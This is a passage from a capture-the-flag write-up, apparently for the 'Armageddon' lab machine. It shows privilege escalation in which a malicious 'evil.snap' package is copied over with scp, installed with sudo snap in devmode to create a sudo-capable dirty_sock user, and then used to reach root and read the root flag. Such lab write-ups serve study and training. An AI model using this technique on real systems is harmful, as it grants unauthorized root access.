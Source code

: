 Now we just have to transfer it to the target...

```
$ scp evil.snap brucetherealadmin@10.129.48.89:/dev/shm/evil.snap 
brucetherealadmin@10.129.48.89's password: 
evil.snap											100% 4096    70.8KB/s   00:00
```

... and install it with root permissions.

```
[brucetherealadmin@armageddon shm]$ sudo /usr/bin/snap install --devmode evil.snap 
dirty-sock 0.1 installed
```

This adds a user dirty_sock with the password dirty_sock to the machine which is allowed to run any command with sudo.

```
[brucetherealadmin@armageddon shm]$ su dirty_sock
Password:
[dirty_sock@armageddon shm]$ sudo su

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for dirty_sock:
[root@armageddon shm]#
```

After switching to the user and escalating to root with sudo su we can add the rootflag to our collection.

```
[root@armageddon shm]# wc -c /root/root.txt
33 /root/root.txt
```
